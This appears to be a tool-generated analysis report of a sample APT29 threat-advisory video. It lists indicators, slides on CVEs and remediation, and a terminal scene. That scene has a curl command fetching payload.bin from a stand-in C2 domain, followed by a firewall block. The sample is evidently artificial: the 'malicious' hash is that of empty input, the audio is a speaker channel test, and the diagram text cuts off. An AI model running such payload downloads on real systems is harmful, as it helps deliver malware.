

# 🎥 Multimodal Video Intelligence: sample_apt29_investigation.mp4

*Duration: 16.0s | Resolution: 1280x720 @ 10.0 FPS | SHA256: `e15a95a9ab546d1e...`*

## 1. Technical Telemetry & Extracted Indicators
- **Total Visual Scenes:** 4
- **Extracted CVEs:** CVE-2023-38831, CVE-2024-21413
- **IPv4 Addresses:** 192.168.1.105, 203.0.113.195
- **SHA256 Signatures:** e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
- **Malicious Domains / URLs:** apt29-c2.net, https://apt29-c2.net/payload.bin

## 2. Temporally Aligned Multimodal Scene Timeline

### ⏱️ Scene 1 [00:00 - 00:05] - Visual: `SLIDE`
**Spoken Narration:** "Front left. Front center."

#### 📑 Slide: CYBER THREAT ADVISORY: APT29 COZY BEAR
- Threat Actor: Midnight Blizzard / APT29
- Primary CVE: CVE-2023-38831 (CVSS 8.8)
- Secondary CVE: CVE-2024-21413 (CVSS 9.8)
- Impacted Infrastructure: 500+ government workstations
- Initial Vector: Spearphishing with weaponized payload

📌 **Scene Indicators:** `CVE-2023-38831, CVE-2024-21413`

---
### ⏱️ Scene 2 [00:05 - 00:09] - Visual: `DIAGRAM`
**Spoken Narration:** "Front center. Front right."

#### 📊 Architecture / Attack Flow Diagram



**Narrative:** **  
APT29’s operator hosts a C2 server that delivers a phishing email to a mail client, which executes a malicious attachment on a target workstation. The compromised workstation moves laterally through the perimeter DM

---
### ⏱️ Scene 3 [00:09 - 00:13] - Visual: `TERMINAL`
**Spoken Narration:** "Front right. Rear center."

#### 💻 Terminal Session / Shell Output

```bash
root@secops-node0l:~# curl -s https://apt29-c2.net/payload.bin -o /var/tmp/dropper.bin
C2 Beacon Detected -> External C2 Server: 203.0.113.195
Malicious Hash: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
root@secops-node0l:~# iptables -A INPUT -s 203.0.113.195 -j DROP
Active perimeter containment rule deployed.
```
*Referenced Paths:* `/apt29-c2.net/payload.bin, /var/tmp/dropper.bin`

📌 **Scene Indicators:** `203.0.113.195, apt29-c2.net, e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855`

---
### ⏱️ Scene 4 [00:13 - 00:16] - Visual: `SLIDE`
**Spoken Narration:** "Rear center."

#### 📑 Slide: INCIDENT CONTAINMENT & REMEDIATION PLAN
- Priority 1: Patch vulnerability CVE-2023-38831 across endpoints
- Priority 2: Ingress filter deployed for C2 host 203.0.113.195
- Priority 3: Revoke Kerberos golden tickets on domain controller
- Priority 4: Isolate compromised internal node 192.168.1.105

📌 **Scene Indicators:** `192.168.1.105, 203.0.113.195, CVE-2023-38831`

---

## 3. Full Continuous Audio Transcript

>  Front left. Front center. Front right. Rear center.
